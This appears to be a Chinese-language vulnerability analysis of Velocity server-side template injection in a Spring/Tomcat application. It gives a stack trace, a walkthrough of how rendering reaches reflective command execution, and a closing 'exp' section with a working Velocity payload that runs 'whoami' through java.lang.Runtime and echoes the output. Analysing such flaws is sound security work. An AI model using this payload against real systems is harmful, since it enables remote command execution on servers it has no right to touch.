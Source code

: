 ```
doFilter:107, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:192, ApplicationFilterChain (org.apache.catalina.core)
doFilter:165, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:105, HttpPutFormContentFilter (org.springframework.web.filter)
doFilter:107, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:192, ApplicationFilterChain (org.apache.catalina.core)
doFilter:165, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:81, HiddenHttpMethodFilter (org.springframework.web.filter)
doFilter:107, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:192, ApplicationFilterChain (org.apache.catalina.core)
doFilter:165, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:197, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:107, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:192, ApplicationFilterChain (org.apache.catalina.core)
doFilter:165, ApplicationFilterChain (org.apache.catalina.core)
invoke:198, StandardWrapperValve (org.apache.catalina.core)
invoke:96, StandardContextValve (org.apache.catalina.core)
invoke:478, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:140, StandardHostValve (org.apache.catalina.core)
invoke:80, ErrorReportValve (org.apache.catalina.valves)
invoke:87, StandardEngineValve (org.apache.catalina.core)
service:341, CoyoteAdapter (org.apache.catalina.connector)
service:799, Http11Processor (org.apache.coyote.http11)
process:66, AbstractProcessorLight (org.apache.coyote)
process:861, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1455, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1149, ThreadPoolExecutor (java.util.concurrent)
run:624, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:748, Thread (java.lang)
```



在调用template#merge的时候渲染触发org.apache.velocity.runtime.parser.node.SimpleNode#render对其他节点进行渲染

![image](https://user-images.githubusercontent.com/63966847/143764912-04aa195c-a3fa-49d1-8689-9ffdb568883a.png)

之后触发org.apache.velocity.runtime.parser.node.ASTReference#render

![image](https://user-images.githubusercontent.com/63966847/143764917-7c8e1420-b40b-49d5-bbc5-24c35ca2b1f2.png)

触发execute方法，之后通过反射去执行命令

![image](https://user-images.githubusercontent.com/63966847/143764918-1b6d2be5-64ae-400a-99b0-4dca7317ec2b.png)

exp

回显

```java
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('whoami'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```
